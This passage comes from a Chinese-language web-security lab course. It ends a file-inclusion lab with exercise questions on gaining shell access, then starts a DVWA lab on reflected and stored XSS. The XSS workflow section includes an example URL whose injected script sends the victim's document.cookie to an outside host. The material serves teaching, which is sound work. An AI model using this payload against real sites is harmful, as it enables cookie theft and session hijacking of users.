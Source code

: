 <p>需要注意的是，有时候文件包含漏洞其实可以在渗透中发挥巨大作用，直接包含远程shell、包含本地上传的文件、读取敏感文件都是一些常用的姿势。当然还有更多的好姿势。将在以后的实验里慢慢介绍。</p>
<h3 id="-">思考</h3>
<ol>
<li><p>如果该网站不存在文件上传等功能，并且存在远程文件包含漏洞，你知道如何利用该漏洞取得目标机权限吗？</p>
</li>
<li><p>如果该网站不存在文件上传等功能，并且不存在远程文件包含漏洞，只存在本地文件包含漏洞，你能想到什么方法向服务器写入恶意代码并包含它？</p>
</li>
</ol>
</div>

### XSS漏洞的发现与利用  

<div id="sectionDoc" class="markdown-body czsc_con smallTxt "><h3 id="-">实验目的</h3>
<p>通过本实验，初步了解XSS漏洞，学习反射型xss漏洞的发现与利用，存储型xss漏洞的发现与利用。</p>
<h3 id="-">实验工具</h3>
<blockquote>
<ul>
<li><strong>DVWA </strong>:&gt;   DVWA (Dam Vulnerable Web Application)DVWA是用PHP+Mysql编写的一套用于常规WEB漏洞教学和检测的WEB脆弱性测试程序。包含了SQL注入、XSS、盲注等常见的一些安全漏洞。</li>
</ul>
</blockquote>
<h3 id="-">实验内容</h3>
<blockquote>
<p>本部分学习发现和利用xss漏洞</p>
</blockquote>
<ul>
<li><strong>本部分概览</strong><ul>
<li>初步了解XSS漏洞</li>
<li>反射型xss漏洞的发现与利用</li>
<li>存储型xss漏洞的发现与利用</li>
</ul>
</li>
</ul>
<blockquote>
<p>XSS又叫CSS (Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意脚本代码，而程序对于用户输入内容未过滤，当用户浏览该页之时，嵌入其中Web里面的脚本代码会被执行，从而达到恶意攻击用户的特殊目的。</p>
<p>跨站脚本攻击的危害：窃取cookie、放蠕虫、网站钓鱼 ...</p>
<p>跨站脚本攻击的分类主要有：存储型XSS、反射型XSS（深入了解还有DOM型XSS，待我们深入了解之后再去分析）</p>
<p>XSS漏洞是Web应用程序中最常见的漏洞之一。如果您的站点没有预防XSS漏洞的固定方法，那么就存在XSS漏洞。这个利用XSS漏洞的病毒之所以具有重要意义是因为，通常难以看到XSS漏洞的威胁，而该病毒则将其发挥得淋漓尽致。</p>
</blockquote>
<h3 id="-">实验步骤</h3>
<h4 id="-1-xss-">步骤1 初步了解XSS漏洞</h4>
<ul>
<li><strong>XSS工作流程</strong></li>
</ul>
<ol>
<li>恶意用户，在一些公共区域（例如，建议提交表单或消息公共板的输入表单）输入一些文本，这些文本被其它用户看到，但这些文本不仅仅是他们要输入的文本，同时还包括一些可以在客户端执行的脚本。如：<code>http://xxx.xxx.com.cn/intf/_photos.jsp?callback=＜script＞[removed].href="http://www.baidu.com?a=" + escape(document．cookie)＜/script＞</code>,参数<code>＜script＞xxx＜/script＞</code>如果这里没有经过转义处理，则页面中就嵌入了一段script</li>
<li>恶意提交这个表单</li>
<li>其他用户看到这个包括恶意脚本的页面并执行，获取用户的cookie等敏感信息。</li>
</ol>
<p>来一张图，具体理解以下跨站脚本工具的原理流程：</p>
<p><img src="../../resources/files/picture/1cc56d225af14037/1480332001035.png" alt="Alt text"></p>
<ul>
<li>反射型XSS和存储型XSS对比</li>
</ul>
<p>存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie等。如：人人网又一大波蠕虫，位置在首页+登录就中招+通杀网页和人人桌面</p>
<p>反射型XSS，非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。</p>